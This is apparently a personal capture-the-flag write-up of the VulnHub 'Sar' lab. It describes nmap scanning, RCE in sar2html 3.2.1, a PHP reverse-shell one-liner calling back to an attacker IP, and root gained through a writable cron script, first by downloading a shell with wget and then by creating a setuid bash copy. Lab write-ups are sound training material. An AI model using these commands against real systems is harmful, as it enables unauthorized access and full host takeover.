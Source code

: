 ```yaml
---
title: WRITE-UP Sar
date: 2024-08-02 00:00:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-Up Sar

## 1. Enumeration
i used netdicover to see where is my lab

![alt text](/assets/img/sar/sar_netdiscover.png)

ip : ```192.168.100.14 ```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.14
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s
  
Only ```80``` http

![alt text](/assets/img/sar/sar_80.png)

it /assets/img/sar/sar2html 3.2.1 was vuln RCE in param ```plot```

![alt text](/assets/img/sar/sar_rce.png)

spawn reverse shell and TTy
```
php -r '$sock=fsockopen("192.168.100.7",3008);exec("sh <&3 >&3 2>&3");'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![alt text](/assets/img/sar/sar_reverse.png)

server run ```crontab``` with sudo user 

![alt text](/assets/img/sar/sar_crontab.png)

```finally.sh``` i can't edit but ```write.sh``` is true

so i go ```root``` with 2 ways

first i sent reverse shell to server and request ```write.sh ``` run it

``` my client _ revershell port 3008 name is shell2
python3 -m http.server 80  
after get shell
nc -nlvp 3008
```

``` vic_client
wget http://192.169.100.7/shell2.php
echo "php shell2.php" >> write.php
```

![alt text](/assets/img/sar/sar_root_1.png)

second i change file ``` write.sh ``` like that 

```
#!/bin/sh

cp /bin/bash /var/www/html/nagibash
chmod u+s /var/www/html/nagibash
```

after create ```nagibash``` with ```crontab``` wb can go to root with euid ```./nagibash -p```

![alt text](/assets/img/sar/sar_root_2.png)

## GG